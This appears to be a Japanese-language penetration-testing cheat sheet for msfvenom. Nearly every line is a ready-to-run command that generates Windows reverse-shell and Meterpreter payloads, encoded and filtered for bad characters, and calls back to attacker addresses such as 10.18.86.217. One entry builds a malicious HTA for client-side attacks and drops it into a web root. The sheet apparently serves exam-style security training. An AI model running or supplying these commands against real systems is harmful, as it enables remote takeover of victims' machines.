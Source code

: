 # msfvenom

### payloadの確認

```bash
msfvenom -l payloads > payloads.txt
cat payloads.txt | grep windows/shell | grep reverse | grep tcp
```

### フォーマットの確認

```bash
msfvenom -h
msfvenom --list formats
```

### リバースシェル（C言語）

```c
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

### rawコードシェル

```bash
msfvenom -a x86 --platform windows -p windows/exec CMD='cmd.exe' -f raw -b "\x00\x0a\x0d\xff" -o raw_shellcode.txt
```

出力ファイルをそのままncで転送するような場合に利用

### BOF用(アプリのクラッシュを防ぐシェル)

```bash
msfvenom -a x86 --platform windows -p windows/exec CMD='cmd.exe'  EXITFUNC=thread -f python -b "\x00\x0a\x12\x1a\x4e\xb1\xd5" 
```

### msfconsole用(windows)

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.18.86.217 LPORT=4443 -f exe -o reverse_tcp.exe
```

### tcpリバースシェル

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.18.86.217 LPORT=4444 -f exe > eternalblue.exe
```

### client-side attack hta

```
sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.131 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta
```

